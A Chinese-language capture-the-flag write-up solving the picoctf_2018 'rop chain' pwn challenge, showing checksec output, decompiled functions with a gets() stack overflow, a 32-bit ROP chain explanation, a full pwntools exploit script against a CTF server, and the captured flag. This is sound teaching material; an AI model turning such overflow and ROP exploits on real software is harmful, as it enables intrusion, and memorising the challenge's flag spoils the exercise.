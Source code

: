 ```yaml
---
tags:
  - BuuCTF
  - 简单
---
```


# picoctf_2018_rop chain

## 前置工作

先 CheckSec，如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec PicoCTF_2018_rop_chain
[*] '/home/ela/Pwn/PicoCTF_2018_rop_chain'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了 NX，再看看 IDA 怎么说，下面是主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v4; // [esp+Ch] [ebp-Ch]

  setvbuf(_bss_start, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  vuln();
  return 0;
}
```

再看看 `vuln()` 函数

```c
char *vuln()
{
  char s[24]; // [esp+0h] [ebp-18h] BYREF

  printf("Enter your input> ");
  return gets(s);
}
```

溢出点找到了，这个 `gets()`，然后发现还有个函数叫做 `flag()`

```c
int __cdecl flag(int a1)
{
  char s[48]; // [esp+Ch] [ebp-3Ch] BYREF
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 48, stream);
  if ( win1 && win2 && a1 == 0xDEADBAAD )
    return printf("%s", s);
  if ( win1 && win2 )
    return puts("Incorrect Argument. Remember, you can call other functions in between each win function!");
  if ( win1 || win2 )
    return puts("Nice Try! You're Getting There!");
  return puts("You won't get the flag that easy..");
}
```

看了看，如果我达成 `win1 && win2 && a1 == 0xDEADBAAD` 就有我想要的了，但是这个 `win1` 和 `win2` 从何得知呢

再仔细看看函数列表，发现有俩函数，一个是 `win_function1()` 还有一个是 `win_function2()`，先看第一个

```c
void win_function1()
{
  win1 = 1;
}
```

挺好，直接赋值了的，就是说我只要调用就可以了

再看看第二个

```c
int __cdecl win_function2(int a1)
{
  int result; // eax

  result = (unsigned __int8)win1;
  if ( win1 && a1 == 0xBAAAAAAD )
  {
    win2 = 1;
  }
  else if ( win1 )
  {
    result = puts("Wrong Argument. Try Again.");
  }
  else
  {
    result = puts("Nope. Try a little bit harder.");
  }
  return result;
}
```

当 `win_function2()` 中的 `a1` 等于 `0xBAAAAAAD` 且 `win1` 存在时，`win2` 可按照我们的预期赋值（注意，这里的 `a1` 和 `flag()` 中的 `a1` 是不一样的）

## ROP 链构造

这就很明确了我要做些啥，我应当先调用 `win_function1()`，然后调用 `win_function2()`，最后调用 `flag()`

刚才 CheckSec 的时候发现这是 32 位程序，也就是说，我们的 ROP 链应该按照这样的模板构造：

***函数地址 + 返回地址 + 参数***

还有一件事，在 x86 中，函数参数通常是从右到左依次入栈的，因此在 ROP 链中你首先要放的是 `flag_func` 的参数，然后是 `win_func1` 的参数

所以我们可以这么写 Payload

```python
payload = b"A"*(0x18+0x4) + p32(win_func1) + p32(win_func2) + p32(flag_func) + p32(win_a1_exp) + p32(flag_a1_exp)
```

## 附总 Exp

```python
from pwn import *

p32 = lambda x: pack(x, 32)

io = remote("node4.buuoj.cn", 27609)

win_func1 = 0x80485CB
win_func2 = 0x80485D8
flag_func = 0x804862B

flag_a1_exp = 0xDEADBAAD
win_a1_exp = 0xBAAAAAAD

payload = b"A"*(0x18+0x4) + p32(win_func1) + p32(win_func2) + p32(flag_func) + p32(win_a1_exp) + p32(flag_a1_exp)
io.sendline(payload)

io.interactive()

```

最后得到的 Flag 是 `flag{879db459-a6fb-4192-8f42-0c4e439cf1bb}`
